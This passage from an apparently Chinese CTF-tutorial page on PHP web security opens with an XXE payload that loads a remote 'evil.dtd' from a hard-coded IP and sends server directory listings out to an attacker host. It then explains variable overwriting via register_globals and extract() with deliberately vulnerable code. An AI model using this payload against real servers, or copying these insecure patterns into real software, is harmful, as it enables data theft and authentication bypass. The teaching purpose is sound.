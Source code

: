 ```xml
<a>&b;</a>
<!--METHOD2,list directory in Java ONLY! https://www.jianshu.com/p/ee03fcdce0cf,https://mp.weixin.qq.com/s/RieBYsDxKdP82gArn22aZw,https://xz.aliyun.com/t/3357-->
<!ENTITY % file SYSTEM "netdoc:../webapps/ctffffff/backups/">
<!ENTITY % test "<!ENTITY &#37; back SYSTEM 'http://xxxx.xxxx.xxx:8000/?file=%file;'>"><!--evil.dtd-->
<!DOCTYPE ANY[
<!ENTITY % send SYSTEM 'http://120.79.152.66:8000/evil.dtd'>
%send;%test;%back;
]>
```

## 变量覆盖[¶](https://ctf-wiki.github.io/ctf-wiki/web/php/#_6)

### 全局变量覆盖[¶](https://ctf-wiki.github.io/ctf-wiki/web/php/#_7)

变量如果未被初始化，且能够用户所控制，那么很可能会导致安全问题。

```
register_globals=ON
```

示例

```
<?php
echo "Register_globals: " . (int)ini_get("register_globals") . "<br/>";

if ($auth) {
  echo "private!";
}
?>
```

当 `register_globals=ON` 时，提交 `test.php?auth=1`，`auth` 变量将自动得到赋值。

### `extract()` 变量覆盖[¶](https://ctf-wiki.github.io/ctf-wiki/web/php/#extract)

`extract()` 函数能够将变量从数组导入到当前的符号表，其定义为

```
int extract ( array $var_array [, int $extract_type [, string $prefix ]] )
```

其中，第二个参数指定函数将变量导入符号表时的行为，最常见的两个值是 `EXTR_OVERWRITE` 和 `EXTR_SKIP`。

当值为 `EXTR_OVERWRITE` 时，在将变量导入符号表的过程中，如果变量名发生冲突，则覆盖所有变量；值为 `EXTR_SKIP` 则表示跳过不覆盖。若第二个参数未指定，则在默认情况下使用 `EXTR_OVERWRITE`。

```
<?php
$auth = "0";
extract($_GET);

if ($auth == 1) {
  echo "private!";
} else {
  echo "public!";
}
?>
```
